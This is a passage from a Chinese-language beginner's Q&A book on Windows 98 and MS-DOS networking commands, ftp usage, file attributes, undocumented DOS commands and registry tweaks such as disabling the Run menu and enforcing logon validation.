

图 1-10

> 小知识：如果使用 `ipconfig /all` 命令，则可以获得更多本机的网络配置信息。（图1-11）

## Win98 下好像有一个工具可以用来查看本机的网络配置状况，是什么？

在“开始”→“运行”菜单里输入 `winipcfg`，即可打开查看 IP 配置的实用工具（图1-12）。在这里，可以获得网卡的 MAC 地址和网卡的品牌、主机的 IP 地址、子网掩码，以及网关的 IP 地址。另外，如果点一下“详细信息”的话，还可以看到更多关于主机的信息（图1-13），如 DHCP 地址、WINS 地址等等，都可以看到。

图1-12

图1-13

## 为什么我在用 NETSTAT 命令的时候屏幕总是一闪而过？怎么才能让它暂停几秒钟？

我想你是在“运行”对话框中填写的 `netstat` 命令吧，这样的话当然是一闪而过了。如果是在 MS-DOS 下使用命令 `netstat`，则会使屏幕停留。

## 如何获得某个 IP 的 MAC 地址（网卡地址）？

首先，必须在局域网内才可以获得对方的 MAC 地址，以下操作是在局域网内完成的。

- 第一步，ping 对方一下。
- 第二步，在本机的 MS-DOS 方式下使用命令 `arp -a` 查看 MAC 的缓冲区（图1-14）。这里面就有对方的 IP 和 MAC 地址的对应。

图1-14

简单说一下原理：所有在局域网内的通信是基于 MAC 地址的，因此在 ping 对方的时候会先做一下 IP→MAC 地址的解析。这个时候，这个 IP→MAC 的对应关系就会保存在本机的 MAC 缓冲区中了。

> 看到上面讲的 MAC→IP 地址的解析转换工作后，不知道大家是否有疑问：这个过程是怎么完成的？其实很简单，大家经常听到的 ARP 协议（TCP/IP 协议栈中的一个协议）……

### 黑客入侵 & 防御 & 基础疑难解答

> IP 就是用来完成这个工作的。另外，还有一个协议是 RARP，我们就叫它为反向 ARP 协议，它的工作和 ARP 协议正好相反，是用来完成 MAC→IP 地址的解析工作的。

### 有什么命令可以用来查看局域网内的所有机器？

`net view` 命令（图1-15）。

> 这个命令查看的是本网段的所有机器。

因为在不同网段之间存在路由器等设备，这些设备会过滤掉这个 NETBIOS 的广播过程。另外，在 Win2k 中，如果加入了不同工作组的机器，使用 `net view` 命令也不会互相看到。

### 如何把一些 DOS 下操作的结果保存到 TXT 文件当中？

例如，我要使用 `dir` 命令来列出 C 盘的文件和文件夹，并把结果记录到 C 盘下的 `dir.txt` 文件中，只要使用这个命令：

```bash
dir c:\ > c:\dir.txt
```

这时候，命令行下会没有任何反应。但是，在 C 盘下会生成一个 `dir.txt` 文件，这个文件里将会记录命令的执行结果（图1-17）。

> 在上面的命令 `dir c:\ > c:\dir.txt` 中，这里起到写入文件作用的是 `>`，但是它的作用是写入并覆盖文件中的内容；如果想在原来内容基础上追加写入一些内容，就要使用 `>>`。如此，上面的命令就会成为 `dir c:\ >> c:\dir.txt`。

### 在命令行下如何 ftp 到一台主机上？

- 有两种方法：
- 第一，`ftp machine_name`（or `ip_address`）（图1-18）。这种方法最为直接，直接 ftp 对方 IP 或主机名就可以。
- 第二，先键入 `ftp`，在出现了 `ftp>` 的字样后再键入 `open machine_name`（or `ip_address`）（图1-19）。这种方法用得比较少。

图1-18

图1-19

### ftp 连接上主机之后，都有什么命令可以用呢？

- `![cmd] [args]`：在本机中执行交互 shell，`exit` 回到 ftp 环境，如：`!ls*.zip`。
- `$macro-name [args]`：执行宏定义 macro-name。
- `account [password]`：提供登录远程系统后访问资源所需的补充口令。
- `append local-file [remote-file]`：将本地文件追加到远程系统主机。
- `ascii`：使用 ASCII 类型传输方式。
- `bell`：每个命令执行完后响铃一次。
- `bin`：使用二进制文件传输方式。
- `bye`：退出 ftp 会话过程。
- `case`：使用 `mget` 时将远程文件名大写转小写。
- `cd remote-dir`：进入远程主机目录。
- `cdup`：进入远程主机目录的父目录。
- `chmod mode file-name`：设置远程主机文件存取方式，如 `chmod 777 a.out`。
- `close`：中断与远程服务器的 ftp 会话（与 `open` 对应）。
- `cr`：ASCII 方式传输时将回车换行转换为回行。
- `delete remote-file`：删除远程主机文件。
- `debug [debug-value]`：设置调试方式，显示发送至远程主机的命令。
- `dir [remote-dir] [local-file]`：显示远程主机目录并存入本地文件。
- `disconnect`：同 `close`。
- `form format`：设置文件传输方式为 format。
- `get remote-file [local-file]`：将远程主机文件传到本地。
- `glob`：设置 `mdelete`、`mget`、`mput` 的文件名扩展。
- `hash`：每传输 1024 字节显示一个 `#`。
- `help [cmd]`：显示 ftp 内部命令帮助，如 `help get`。
- `idle [seconds]`：设置远程服务器休眠计时器。
- `image`：设置二进制传输方式（同 binary）。
- `lcd [dir]`：切换本地工作目录。
- `ls [remote-dir] [local-file]`：显示远程目录并存入本地文件。
- `macdef macro-name`：定义宏，遇到空行结束。
- `mdelete [remote-file]`：删除远程主机文件。
- `mdir remote-files local-file`：与 `dir` 类似，但可指定多个远程文件，如：`mdir *.o *.zip outfile`。
- `mget remote-files`：传输多个远程文件。
- `mkdir dir-name`：在远程主机中建一目录。
- `mls remote-file local-file`：同 `nlist`，但可指定多个文件名。
- `mode [modename]`：将文件传输方式设置为 modename，缺省为 stream 方式。
- `modtime file-name`：显示远程主机文件的最后修改时间。
- `mput local-file`：将多个文件传输至远程主机。
- `newer file-name`：如果远程机中 file-name 的修改时间比本地硬盘同名文件时间更新，则重传该文件。
- `nlist [remote-dir] [local-file]`：显示远程主机目录的文件清单，并存入本地硬盘的 local-file。
- `nmap [inpattern outpattern]`：设置文件名映射机制，使文件传输时文件名字符互换。
- `ntrans [inchars] [outchars]`：设置文件名字符翻译机制。
- `open host [port]`：建立指定 ftp 服务器连接，可指定连接端口。
- `passive`：进入被动传输方式。
- `prompt`：设置多个文件传输时的交互提示。
- `proxy ftp-cmd`：在次要控制连接中执行一条 ftp 命令，允许连接两个 ftp 服务器以在两者间传输文件；第一条命令必须为 `open`。
- `put local-file [remote-file]`：将本地文件 local-file 传送至远程主机。
- `pwd`：显示远程主机当前工作目录。
- `quit`：同 `bye`，退出 ftp 会话。
- `quote arg1, arg2...`：将参数逐字发至远程 ftp 服务器。
- `recv remote-file [local-file]`：同 `get`。
- `reget remote-file [local-file]`：类似 `get`，若 local-file 存在则从上次中断处续传。
- `rhelp [cmd-name]`：请求获得远程主机帮助。
- `rstatus [file-name]`：未指定文件名则显示远程主机状态，否则显示文件状态。
- `rename [from] [to]`：更改远程主机文件名。
- `reset`：清除回答队列。
- `restart marker`：从指定标志 marker 处重新开始 `get` 或 `put`。
- `rmdir dir-name`：删除远程主机目录。
- `runique`：设置文件名唯一性存储，若文件存在则在原文件后加后缀。
- `send local-file [remote-file]`：同 `put`。
- `sendport`：设置 PORT 命令的使用。
- `site arg1, arg2...`：将参数作为 SITE 命令发送。
- `size file-name`：显示远程主机文件大小。
- `status`：显示当前 ftp 状态。
- `struct [struct-name]`：将文件传输结构设置为 struct-name，缺省时使用 stream 结构。
- `sunique`：将远程主机文件名存储设置为唯一（与 `runique` 对应）。
- `system`：显示远程主机的操作系统类型。
- `tenex`：将文件传输类型设置为 TENEX 机所需的类型。
- `tick`：设置传输时的字节计数器。
- `trace`：设置包跟踪。
- `type [type-name]`：设置文件传输类型为 type-name，缺省为 ASCII。如：`type binary`，设置二进制传输方式。
- `umask [newmask]`：将远程服务器的缺省 umask 设置为 newmask，如：`umask 3`。
- `user user-name [password] [account]`：向远程主机表明自己的身份，需要口令时必须输入口令，如：`user anonymous my@email`。
- `verbose`：同命令行的 `-v` 参数，即设置详尽报告方式，ftp 服务器的所有响应都将显示给用户，缺省为 on。
- `? [cmd]`：同 `help`。

另外，ftp 命令还有一些参数：带参数的 ftp 格式为 `ftp -v -d -i -n -g [主机名]`。`-v` 显示远程服务器的所有响应信息；`-n` 限制 ftp 的自动登录，即不使用 `.netrc` 文件；`-d` 使用调试方式；`-g` 取消全局文件名。

### 在命令行下，如何查看文件或文件夹的属性？

`attrib` 命令（图1-20）是一个 DOS 下用来查看，并且可以修改文件或文件夹属性的命令。

图1-20

如果想使用这个命令来查看某个文件的属性，格式为：`attrib file.exe`（查看 file.exe 文件的属性）（图1-21）。如例中，使用命令 `attrib config.sys` 来查看 config.sys 的属性，返回的结果为一个 “A”，表明该文件的属性为“存档”。

图1-21

### 如何使用 attrib 命令修改文件的属性？

`attrib` 命令的参数有这些：

```text
[+R|-R][+A|-A][+S|-S][+H|-H]
```

其中，“+”代表给文件添加该属性，而“-”则是给文件去掉该属性。

R、A、S、H 这四个字母分别代表文件的四个属性：只读文件属性、存档文件属性、系统文件属性、隐藏文件属性。

例如，在这里，找到一个具有只读属性的文件（只读文件 hack.txt）（图1-22），然后对这个文件使用命令 `attrib -r +h hack.txt`（图1-23）。这个命令的作用是去掉这个文件的只读属性，并给它添加一个隐藏属性。

命令执行后，没有返回信息。这时候我们来查看一下文件的属性（图1-24），可以看到，文件已经变成了“隐藏”属性，以前的“只读”属性也不见了。

> 如果 MS-DOS 下一屏幕不能全部显示的话，用什么命令可以让它分屏显示？

这个是没有单独命令的，但是有参数可以用。对所有命令都可以添加这个参数：`|more`。这样的话，当命令结果显示满一屏后，下面会出现“---more---”这样的标记（图1-25），这时候只要按任意键就可以继续查看下一屏了。

### 最后的附录部分

MS-DOS 到 6.22 版为止，依然保留着很多未公开的命令和参数。下面对这些命令和参数作一介绍。

- **TRUENAME**  
  在使用 SUBST、JOIN 命令，或在网络上将物理盘映射为逻辑盘的情况下，用于显示文件与目录的实际物理位置。

- **FDISK /MBR**  
  重写硬盘主引导记录。注意：如果硬盘分区超过四个，不能用此命令，因储存额外分区信息的区域会被 FDISK /MBR 覆盖。（初学者千万不要用）

- **SHELL=C:\COMMAND.COM /P /F**  
  加上 `/F` 参数后，提示 “Abort, Retry, Fail” 出错信息时，将以 Fail 作为默认选项。

- **COMMAND /F**  
  在命令行执行时，使 Fail 作为 “Abort, Retry, Ignore, Fail” 出错信息提示的默认选项，直至重新启动。  
  在其它专用 DOS 外壳（如 NDOS、4DOS 等）或应用程序（如 PCTOOLS、CCED 等）的 DOS 外壳中执行此命令后，将返回并停留在 MS-DOS 外壳，须执行 `EXIT` 才能回到第二外壳。  
  磁盘因此不可访问。这似乎是为防止数据泄密提供一个应急手段。（初学者千万不要用）

- **COMMAND /P**  
  在命令行执行时，重新运行 AUTOEXEC.BAT。  
  如在其它 DOS 外壳中执行此命令，会回到 MS-DOS 外壳而不能重新返回第二外壳。

- **COMMAND /D**  
  在命令行执行时，阻止运行自动批处理文件。  
  在其它 DOS 外壳中运行的情况与 COMMAND /P 相同，但不将 Fail 设为默认选项。

- **VER /R**  
  显示更多信息。例如，执行 `VER` 显示 “MS-DOS Version 6.22”，加参数 `/R` 后，则显示 “MS-DOS Version 6.22 Revision A DOS is in HMA”。

- **FORMAT /AUTOTEST**  
  自动检查磁盘格式，然后完成格式化全过程，再回到 DOS 提示符。

- **FORMAT /BACKUP**  
  除提示用户输入卷标外，与上面相同。

- **FORMAT /SELECT**  
  只在磁盘上备份系统区数据，相当于执行 MIRROR 程序，不进行格式化。

- **FORMAT /SELECT /U**  
  不进行格式化，只将引导区和文件分配表用 F6H 填充。虽不触动根目录区与数据区，但磁盘因此不可访问。

- **IF EXIST EMMXXXX0**  
  命令名用于批文件，可检测内存中是否有 EMM386.EXE。命令语句举例：`if not exist EMMXXXX0 echo EMM386.EXE is not installed!`。

- **IF EXIST XMMXXXX0**  
  命令名可在批文件中检测内存中是否装有 HIMEM.SYS。命令行可以是：`if not exist XMMXXXX0 echo HIMEM.SYS is not in memory!`。

- **COPY . A:**  
  用 “.” 来代替 “*.*”，也可用于 `DEL` 等命令。

- **INSTALLHIGH**  
  有些设备驱动程序需在 CONFIG.SYS 中用 INSTALL 语句安装，只能装入常规内存，而且用 MEMMAKER 优化内存时，并不对 INSTALL 语句进行处理。可改用 INSTALLHIGH 将这类设备驱动程序装入上位内存，例：`INSTALLHIGH=C:\DOS\SHARE.EXE`。

- **用 “:” 来代替 “REM”**  
  在 DOS 执行批文件时，碰到 “REM” 语句时，先将全句读入，然后再根据句首是否有 REM 决定处理方法；而碰到以 “:” 开始的标号，只要第一个字符不是字母或数字，即视为无效标号而立刻跳到下一行。  
  因此，可用 “:” 加一空格来引导注释行，以增加批文件执行速度。

## 第2章 Win98 注册表

### 如何打开注册表？

严谨地说，应该是问如何打开注册表编辑器，因为我们在平常编辑注册表的时候使用的都是注册表编辑器。

打开注册表编辑器的方法为：开始→运行→`regedit`（图 2-1）。



### 所有的以 exe 为后缀的文件都无法打开了，怎么回事啊？

可能是注册表的问题，丢失了 exe 的关联。到这个位置：`HKEY_CLASSES_ROOT\exefile\shell\open\command` 下，修改右边的“默认”键的值为 `"%1" %*` 即可（图 2-2）。



### 为什么我在 Win9x 下安装 Win2000 显示“无法检测当前操作系统版本号”而退出了安装？

主要原因是 Win2000 安装程序没有检测到当前的 Windows 版本，如果用 Win98 的测试版就会出现这种情况，有些安装时不需要输入序列号的盗版 Win98 也能造成此类事件。你只需手动修改 Win9x 的注册表，添加序列号就可以了，该键值在 `HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion` 下。新建一个字符串值为 Win98 的序列号，同时建一个 `Version Number` 字符串值，值赋为你的 Win98 的版本号。

但是上述方法比较麻烦，建议利用 Win2000 的光盘启动安装，或在 DOS 方式下安装，这样比较省事。

### 怎样改注册表才能使即使在 IE 地址栏输入驱动器名称也不能进入？

打开 `HKEY_CURRENT_USER\SOFTWARE\MICROSOFT\WINDOWS\CURRENTVERSION\POLICIES\EXPLORER` 子键，新建一个名为 `NoFileURL` 的 DWORD 值，将数值设为 1（此方法适用于 98、NT、2000、XP）。

### 如何防止 Win98 在启动的时候直接按 ESC 键或是取消就进入？

Win98 系统启动的时候，会出现对话框要求输入密码，但是该功能形同虚设，只要点“取消”或是按 ESC 键就可以进入系统。不过还好，我们可以通过修改注册表来禁止按“取消”或是 ESC 登录。来到这个位置：`HKEY_LOCAL_MACHINE\Network\Logon`，在下面新建一个 DWORD 值，名为 `MustBeValidated`，并设其值为 1。

还没有结束，接下来来到控制面板，并找到“网络”，在网络属性里设置为“Windows 登录”（图 2-3）。

**注意：**如果修改失败的话，可以进入到安全模式修改注册表。



### 能不能在右键菜单里加上“关闭计算机”这一项？

可以在右键“开始”按钮的菜单里添加上“关闭计算机”这一项。

`HKEY_CLASSES_ROOT\Directory\Shell`

方法为修改注册表，在上述位置下面新建主键，名为 `Close`。然后再修改 `Close` 子键右边窗口中的“默认”的值，改为“关闭计算机”。

接下来，在 `Close` 下再建立一个子键，名为 `Command`，修改 `Command` 右边窗口中的“默认”值，改为 `RUNDLL32.EXE USER.EXE, EXITWINDOWS`。

不用重新启动计算机，然后右键“开始”按钮就可以看到。

**注意：**在这里点“关闭计算机”的话，不会有任何提示，计算机将直接关闭。另外，此法对 Win2K 没有作用。

### 如何屏蔽掉开始菜单里的“运行”？

注册表如下位置：

`HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Policies\Explorer`

下面新建一个 DWORD 值，名为 `NoRun`，并修改其值为 1。这里要注意，保证在修改的时候是“十进制”（图 2-4）（不过关系也不大，因为十六进制和十进制的数字 1 都是一样的，呵呵）。



然后，我们到开始菜单中来看一下效果，仔细找找，果然没有“运行”了（图 2-5）。接下来，再试一下快捷键吧，按下“Win+R”这个组合键，呵呵，怎么样？弹出个警告来，告诉你管理员禁止了，不能用啦，屏蔽得很彻底嘛。



